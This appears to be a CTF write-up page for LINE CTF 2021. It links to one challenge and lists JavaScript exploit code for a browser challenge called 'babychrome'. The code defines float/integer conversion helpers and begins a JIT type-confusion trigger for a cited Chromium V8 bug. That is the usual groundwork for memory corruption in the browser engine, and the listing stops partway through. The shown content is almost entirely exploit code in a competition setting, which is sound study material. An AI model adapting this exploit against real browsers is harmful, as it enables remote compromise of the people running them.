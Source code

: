 # Write Ups

### pwn

**Damn Vuln** - https://kileak.github.io/ctf/2021/linectf-damn/



**babychrome**

```js
let conversion_buffer = new ArrayBuffer(8);                                     
let float_view = new Float64Array(conversion_buffer);                           
let int_view = new BigUint64Array(conversion_buffer);                           
BigInt.prototype.hex = function() {                                             
    return '0x' + this.toString(16);                                            
};                                                                              
BigInt.prototype.i2f = function() {                                             
    int_view[0] = this;                                                         
    return float_view[0];                                                       
}                                                                               
BigInt.prototype.smi2f = function() {                                           
    int_view[0] = this << 32n;                                                  
    return float_view[0];                                                       
}                                                                               
Number.prototype.f2i = function() {                                             
    float_view[0] = this;                                                       
    return int_view[0];                                                         
}                                                                               
Number.prototype.f2smi = function() {                                           
    float_view[0] = this;                                                       
    return int_view[0] >> 32n;                                                  
}                                                                               
Number.prototype.i2f = function() {                                             
    return BigInt(this).i2f();                                                  
}                                                                               
Number.prototype.smi2f = function() {                                           
    return BigInt(this).smi2f();                                                
}                                                                               
                                                                                
function hex(a) {                                                               
    return "0x" + a.toString(16);                                               
}

// https://bugs.chromium.org/p/chromium/issues/detail?id=1126249
function jit_func(a) {
    let v16213 = 0 * -1;
    var v25608 = -0x80000000;

    if (a) {
        v25608 = -(v16213 = -1);
    }

    var v19229 = ((v16213-v25608) == -0x80000000);

    if (a) {
        v19229 = -0x1337;
    }

    let v5568 = Math.sign(v19229);

    v5568 = Math.sign(v19229) < 0|0|0 ? 0 : v5568;

    let v51206 = new Array(v5568);
```